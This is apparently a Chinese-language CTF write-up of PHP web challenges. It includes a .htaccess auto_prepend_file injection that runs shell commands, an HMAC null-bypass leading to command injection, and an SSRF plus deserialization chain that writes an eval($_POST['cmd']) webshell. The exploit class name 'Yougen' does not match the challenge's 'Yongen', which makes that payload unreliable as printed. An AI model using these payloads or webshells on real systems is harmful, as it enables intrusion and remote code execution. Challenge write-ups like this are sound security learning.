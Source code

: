 ## easyphp
```PHP
<?php  
    $files = scandir('./');   
    foreach($files as $file) {  
        if(is_file($file)){  
            if ($file !== "index.php") {                unlink($file);  
            }  
        }  
    }  
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {        highlight_file(__FILE__);  
        die();  
    }    $content = $_GET['content'];  
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {  
        echo "Hacker";  
        die();  
    }    $filename = $_GET['filename'];  
    if(preg_match("/[^a-z\.]/", $filename) == 1) {  
        echo "Hacker";  
        die();  
    }    $files = scandir('./');   
    foreach($files as $file) {  
        if(is_file($file)){  
            if ($file !== "index.php") {                unlink($file);  
            }  
        }  
    }    file_put_contents($filename, $content . "\nHello, world");  
?>
```

上传一句话

![](attachments/Pasted%20image%2020240331092435.png)

疑似只解析index.php

.htaccess文件包含`\`拼接绕过waf
`?filename=.htaccess&content=php_value%20auto_prepend_fil%5C%0Ae%20.htaccess%0A%23%3C%3Fphp%20system('cat%20/fla?')%3B%3F%3E%5C
`

## Easyphp2
文件包含

![](attachments/Pasted%20image%2020240331151803.png)

有waf

![](attachments/Pasted%20image%2020240331152342.png)

过滤了base64

## Blackcat
下载音频尾部有源码
```php
if(empty($_POST['Black-Cat-Sheriff']) || empty($_POST['One-ear'])){
    die('Ë­£¡¾¹¸Ò²ÈÎÒÒ»Ö»¶úµÄÎ²°Í£¡');
}

$clandestine = getenv("clandestine");

if(isset($_POST['White-cat-monitor']))
    $clandestine = hash_hmac('sha256', $_POST['White-cat-monitor'], $clandestine);


$hh = hash_hmac('sha256', $_POST['One-ear'], $clandestine);

if($hh !== $_POST['Black-Cat-Sheriff']){
    die('ÓÐÒâÃé×¼£¬ÎÞÒâ»÷·¢£¬ÄãµÄÃÎÏë¾ÍÊÇÄãÒªÃé×¼µÄÄ¿±ê¡£ÏàÐÅ×Ô¼º£¬Äã¾ÍÊÇÄÇ¿ÅÉäÖÐ°ÐÐÄµÄ×Óµ¯¡£');
}

echo exec("nc".$_POST['One-ear']);
```


传入数组结果为null

![](attachments/Pasted%20image%2020240331195816.png)


按照这个逻辑生成对应的hash值就可以完成命令执行

![](attachments/Pasted%20image%2020240331201046.png)

只有一行结果

获取flag.php内容

![](attachments/Pasted%20image%2020240331201203.png)


## EasySer
/robots.txt
![](attachments/Pasted%20image%2020240401075303.png)

![](attachments/Pasted%20image%2020240401075443.png)

`/star1.php?path=http://127.0.0.1/ser.php`

```php
<?php  
error_reporting(0);  
if ( $_SERVER['REMOTE_ADDR'] == "127.0.0.1" ) {    
highlight_file(__FILE__);  
} 
$flag='{Trump_:"fake_news!"}';  
  
class GWHT{  
    public $hero;  
    public function __construct(){        
	    $this->hero = new Yasuo;  
    }  
    public function __toString(){  
        if (isset($this->hero)){  
            return $this->hero->hasaki();  
        }else{  
            return "You don't look very happy";  
        }  
    }  
}  
class Yongen{ //flag.php
	public $file;  
    public $text;  
    public function __construct($file='',$text='') {        
	    $this -> file = $file;        
	    $this -> text = $text;  
   
    }  
    public function hasaki(){        
	    $d   = '<?php die("nononon");?>';        
	    $a= $d. $this->text;  
         @file_put_contents($this-> file,$a);  
    }  
}  
class Yasuo{  
    public function hasaki(){  
        return "I'm the best happy windy man";  
    }  
}  
  
?>
```

这里的写文件涉及到对前面die的bypass，用`string.strip_tags`可以处理php标签/或者直接base64处理掉

php://filter/string.strip_tags|convert.base64-encode/resource=

exp
```php
<?php
class GWHT{
	public $hero;
}

class Yougen{
	public $file="php://filter/write=convert.base64-decode/resource=shell.php";
	public $text="aaaPD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==";

}

$G = new GWHT();
$G->hero = new Yougen();
echo(serialize($G));
```

payload
`/star1.php?path=http://127.0.0.1/ser.php&c=O:4:"GWHT":1:{s:4:"hero";O:6:"Yougen":2:{s:4:"file";s:59:"php://filter/write=convert.base64-decode/resource=shell.php";s:4:"text";s:43:"aaaPD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==";}}`